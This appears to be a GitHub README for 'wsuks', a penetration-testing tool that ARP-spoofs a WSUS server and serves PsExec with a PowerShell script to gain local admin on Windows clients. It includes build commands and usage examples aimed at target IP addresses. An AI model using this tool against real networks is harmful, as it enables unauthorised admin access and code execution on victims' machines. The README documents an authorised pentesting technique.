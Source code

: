 ### wsuks

_Automating the WSUS Attack_

Gaining local administrative access to a Windows machine that is part of a domain is typically the first step in gaining domain admin privileges during a penetration test. In many cases, the Windows Server Update Service (WSUS) is configured to deploy updates to clients over the local network using HTTP. Without the security of HTTPS, an attacker can mount a machine-in-the-middle attack to serve an update to the client, which will then execute with SYSTEM privileges. Any Microsoft signed executable can be served as an update, including a custom command with which the executable is executed.

To automatically exploit the WSUS attack, this tool spoofs the IP address of the WSUS server on the network using ARP, and when the client requests Windows updates, it serves PsExec64.exe with a predefined PowerShell script to gain local admin privileges. Both the executable file that is served (default: PsExec64.exe) and the command that is executed can be changed if required.\
By default, a Windows client will check for updates approximately every 24 hours.


Prerequisits:
- The target client must be on the local network
- The Windows Server Update Service (WSUS) must be configured using HTTP

Result:
- After successful execution the user provided will be added to the local admin group. If no user was specified a user with the format user[0-9]{5} (e.g. user12345) and a random password will be created

Implemented features:
 - [x] ARP spoofing the target
 - [x] Routing the ARP spoofed packets to the local HTTP server
 - [x] HTTP server to serve the malicious updates
 - [x] Automatic detection of the WSUS server
 - [x] Included PowerShell script and executable to gain local admin access


```bash
podman build -t wsuks .
podman run -it --name wsuks wsuks

wsuks -h


    __          __ _____  _    _  _  __  _____
    \ \        / // ____|| |  | || |/ / / ____|
     \ \  /\  / /| (___  | |  | || ' / | (___
      \ \/  \/ /  \___ \ | |  | ||  <   \___ \
       \  /\  /   ____) || |__| || . \  ____) |
        \/  \/   |_____/  \____/ |_|\_\|_____/

     Pentesting Tool for the WSUS MITM Attack
               Made by NeffIsBack
                 version: 1.0.0

usage: wsuks [-h] [-v] [--debug] [-ts]

options:
  -h, --help        show this help message and exit
  -v, --version     show program's version number and exit
  --debug           Enable debug output
  -ts, --timestamp  Add timestamp to log messages

Examples:
    wsuks -t 192.168.0.10 --WSUS-Server 192.168.0.2                                   # Generates a new user&password and adds it to the local admin group
    wsuks -t 192.168.0.10 --WSUS-Server 192.168.0.2 -u User -d Domain.local           # Adds the domain user to the local admin group
    wsuks -t 192.168.0.10 -u User -p Password123 -d Domain.local -dc-ip 192.168.0.1   # Turns on WSUS server discovery and adds the domain user to the local admin group
```